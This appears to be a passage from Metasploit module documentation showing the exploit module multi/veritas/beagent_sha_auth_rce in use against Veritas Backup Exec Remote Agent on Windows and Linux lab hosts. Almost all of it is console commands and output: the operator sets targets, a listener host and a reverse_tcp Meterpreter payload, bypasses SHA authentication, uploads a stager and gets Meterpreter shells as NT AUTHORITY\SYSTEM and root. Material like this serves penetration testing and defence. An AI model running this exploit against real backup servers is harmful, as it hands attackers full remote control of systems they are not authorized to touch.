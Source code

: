 ```
[*] 192.168.123.147:10000 - Passing SHA authentication
[*] 192.168.123.147:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 192.168.123.147
[*] Meterpreter session 5 opened (192.168.123.1:4444 -> 192.168.123.147:49835) at 2022-09-22 15:23:19 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-BE1QFC9
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.147 - Meterpreter session 1 closed.  Reason: User exit
```

### Linux; Backup Exec 16.0 (Backup Exec Remote Agent, revision 9.2)
```
msf exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.199.133
rhosts => 172.16.199.133
msf exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/veritas/beagent_sha_auth_rce) > set target 1
target => 1
msf exploit(multi/veritas/beagent_sha_auth_rce) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.133:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.133:10000 - Checking vulnerability
[*] 172.16.199.133:10000 - Connecting to BE Agent service
[*] 172.16.199.133:10000 - Getting supported authentication types
[*] 172.16.199.133:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5)
[*] 172.16.199.133:10000 - BE agent revision: 9.2
[+] 172.16.199.133:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 172.16.199.133:10000 - Exploiting ...
[*] 172.16.199.133:10000 - Connecting to BE Agent service
[*] 172.16.199.133:10000 - Enabling TLS for NDMP connection
[*] 172.16.199.133:10000 - Passing SHA authentication
[*] 172.16.199.133:10000 - Uploading payload with CmdStager
[*] 172.16.199.133:10000 - Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3020772 bytes) to 172.16.199.133
[*] 172.16.199.133:10000 - Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.133:55062) at 2022-09-22 15:17:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : debian.test.com
OS           : Debian 9.13 (Linux 4.9.0-19-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > Interrupt: use the 'exit' command to quit
```